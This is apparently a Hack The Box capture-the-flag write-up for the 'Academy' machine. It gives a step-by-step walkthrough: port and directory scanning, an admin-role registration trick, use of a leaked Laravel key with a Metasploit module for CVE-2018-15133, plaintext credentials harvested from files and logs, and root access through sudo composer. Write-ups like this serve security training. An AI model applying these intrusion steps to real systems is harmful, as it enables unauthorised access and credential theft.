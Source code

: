 # [Academy](https://app.hackthebox.com/machines/academy)

```bash
nmap -p- --min-rate 10000  10.10.10.215  
```

![Alt text](img/image.png)


After we see that (22,80,33060) ports are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,33060 10.10.10.215
```

![Alt text](img/image-1.png)


We see that this IP Address resolves into 'academy.htb' , let's add into `/etc/hosts` file.

![Alt text](img/image-2.png)


Let's do directory brute-forcing.

```bash
gobuster dir -u http://academy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40
```

![Alt text](img/image-3.png)



Here, I found 'register.php' endpoint to create user account.
While intercepting this request, I see that '**roleid**' into 1 to be admin user.

![Alt text](img/image-4.png)

```bash
uid=dr4ks&password=Dr4ks&confirm=Dr4ks&roleid=1
```

![Alt text](img/image-5.png)


From here, we see that 'dev-staging-01.academy.htb' , let's add this subdomain into `/etc/hosts` file.

This is actually dev state that's why debug mode is runned that's why we can see all stuff.

![Alt text](img/image-6.png)


I found exploit 'CVE-2018-15133'

![Alt text](img/image-7.png)

Let's grab app key from here.

```bash
APP_KEY = base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
```

Let's use exploit `exploit/unix/http/laravel_token_unserialize_exec`

![Alt text](img/image-8.png)


![Alt text](img/image-9.png)

Make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
```

I enumerate users.

![Alt text](img/image-10.png)

On 'var/www/html/academy' directory, I found '.env' file which contains credentials.

![Alt text](img/image-11.png)


cry0l1t3:mySup3rP4s5w0rd!!

user.txt

![Alt text](img/image-12.png)

I see that my user is `adm` group.

![Alt text](img/image-13.png)


Let's read this to switch into another user by reading [this](https://support.oracle.com/knowledge/Oracle%20Linux%20and%20Virtualization/2239220_1.html)

![Alt text](img/image-14.png)


From here, I see credentials..

![Alt text](img/image-15.png)

![Alt text](img/image-16.png)

I grab credentials.

mrb3n:mrb3n_Ac@d3my!


Let' ssh into machine via above credentials.

I check privileges of my user via `sudo -l` commnad.

![Alt text](img/image-17.png)


Let's read [this](https://gtfobins.github.io/gtfobins/composer/) for `composer` binary.


root.txt

![Alt text](img/image-18.png)
